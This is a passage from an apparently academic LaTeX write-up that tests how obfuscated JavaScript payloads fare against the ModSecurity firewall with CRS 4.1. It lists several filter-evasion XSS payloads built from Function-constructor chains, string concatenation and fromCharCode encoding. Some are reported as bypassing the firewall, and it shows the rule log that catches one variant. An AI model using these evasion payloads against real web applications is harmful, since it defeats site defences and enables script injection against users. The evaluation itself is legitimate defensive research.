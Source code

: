 Similarly, using the dot-syntax instead of bracket-access, the following valid payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption={Function() constructor + string concatenation in dot notation bypass}, language=Python]
[].constructor.constructor(`var/**/s/**/=/**/'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
\end{lstlisting}

\subsubsection{Function Constructor + String Concatenation + fromCharCode()}
\label{sec:charcodemultiiter}
Following up on the idea to split the character sequence \verb|String.fromCharCode| into multiple segments, which was stated during the single iteration evaluation under Section~\ref{sec:charcodesingleiter}, the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
String.fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)
\end{lstlisting}
was split into two parts using the \verb|Function()| constructor and string concatenation:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)')();
\end{lstlisting}
This payload successfully bypassed the ModSecurity firewall configured to use the \acrshort{crs} 4.1. In order to make this payload execute, another use of the \verb|Function()| constructor and string concatenation was applied:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
\end{lstlisting}
On evaluating this payload against the tested firewall, the newly applied obscurity triggered a different filtering rule:

\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
</payload>

<message>"PHP Injection Attack: Variable Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "488"] [id "933210"]<fileDetails>
<MatchedData>"('[].map.constructor(''String.''fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'')();')();"</MatchedData>
\end{lstlisting}
The regular expression used in this rule:

